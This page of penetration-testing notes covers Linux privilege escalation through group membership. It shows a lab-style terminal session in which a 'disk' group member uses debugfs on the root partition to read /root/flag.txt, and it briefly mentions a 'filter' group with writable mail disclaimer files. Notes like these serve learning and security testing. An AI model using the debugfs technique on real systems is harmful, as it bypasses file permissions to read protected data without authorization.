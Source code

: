# Groups

## Disk

The **`disk`** group in Linux is a **privileged system group** intended to grant **access to** **raw disk devices**, like `/dev/sda`, `/dev/sdb`, etc. It allows users to perform low-level operations on storage devices, such as partitioning, formatting, mounting/unmounting, etc.&#x20;

Membership in the `disk` group is highly sensitive — users with this access can **read or modify any data on the system**, bypassing file permissions entirely.

```bash
# Confirm group membership
ian@DANTE-NIX07:~$ id
uid=1001(ian) gid=1001(ian) groups=1001(ian),6(disk)

# Identify the root fine system (/)
ian@DANTE-NIX07:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        14G  7.9G  5.2G  61% /

# Open the block service
ian@DANTE-NIX07:~$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
No entry for terminal type "xtrem";
using dumb terminal settings.

# Failed attempt to create a directory
debugfs:  mkdir test
mkdir: Filesystem opened read/only

# Read a root file 
debugfs:  cat /root/flag.txt
```

## Filter

The `filter` group is usually a **custom group**, not a default Linux group, and it’s commonly used to manage permissions around mail content filtering components. It can be assigned writable access to sensitive files, such as [disclaimer files](../../../../../services/tcp/mail/smtp-25-587.md#disclaimer-files), which can lead to PE.
